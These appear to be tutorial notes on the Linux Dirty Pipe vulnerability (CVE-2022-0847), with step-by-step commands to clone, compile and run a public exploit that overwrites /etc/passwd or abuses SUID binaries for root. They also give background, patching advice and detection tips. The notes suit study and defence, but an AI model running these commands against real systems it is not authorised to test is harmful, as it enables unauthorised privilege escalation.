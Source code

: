 
### Clone exploit
```bash
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
```

### Compile exploit
```bash
bash compile.sh
```

### Verify kernel version
```bash
uname -r
```

### Exploit 1 (modify /etc/passwd)
```bash
./exploit-1
```

### Verify root access
```bash
id
whoami
```

### Find SUID binaries
```bash
find / -perm -4000 2>/dev/null
```

### Exploit 2 (run SUID binary)
```bash
./exploit-2 /path/to/suid/binary
```

### Verify root access
```bash
id
whoami
```



**Key Concepts:**

- **Dirty Pipe (CVE-2022-0847):**
    - Linux kernel vulnerability.
    - Allows writing to arbitrary files with read access.
    - Affects kernel versions 5.8 to 5.17.
    - Similar to Dirty Cow (CVE-2016-5195).
- **Pipes:**
    - Unidirectional communication mechanism between processes.
- **SUID Binaries:**
    - Binaries that run with the privileges of their owner.

**Vulnerability and Exploitation:**

- **Vulnerability Details:**
    - The vulnerability involves improper handling of pipe buffers.
    - It allows bypassing file permission checks.
- **Exploitation Process:**
    - Download a Proof-of-Concept (PoC) exploit.
    - Compile the exploit.
    - Run the exploit.
    - Exploit-1: Modifies `/etc/passwd` to gain root access.
    - Exploit-2: Runs SUID binaries as root.
- **Mitigation:**
    - Update the Linux kernel to a patched version.

**Exploitation Steps (as described):**

1. **Download PoC Exploit:**
    - `git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git`
    - `cd CVE-2022-0847-DirtyPipe-Exploits`
    - `bash compile.sh`
2. **Verify Kernel Version:**
    - `uname -r`
3. **Exploit 1 (Modify /etc/passwd):**
    - `./exploit-1`
    - `id`
4. **Find SUID Binaries:**
    - `find / -perm -4000 2>/dev/null`
5. **Exploit 2 (Run SUID Binary):**
    - `./exploit-2 /path/to/suid/binary`
    - `id`

**Important Considerations and Enhancements:**

- **Vulnerability Severity:**
    - Dirty Pipe is a critical vulnerability.
    - It allows easy privilege escalation.
- **Patching:**
    - Updating the kernel is essential.
- **Exploit Reliability:**
    - The PoC exploit is generally reliable.
- **Android Impact:**
    - Highlight the impact on Android devices.
- **Detection:**
    - Monitor for unexpected file modifications.
    - Use intrusion detection systems.
- **Real world examples:** Researching real world dirty pipe exploits will help solidify understanding of the attack vectors.
- **File restoration:** Emphasize the importance of the exploit restoring the /etc/passwd file.
- **Specific kernel versions:** It is very important to make sure the exploit being used is compatible with the kernel version of the target.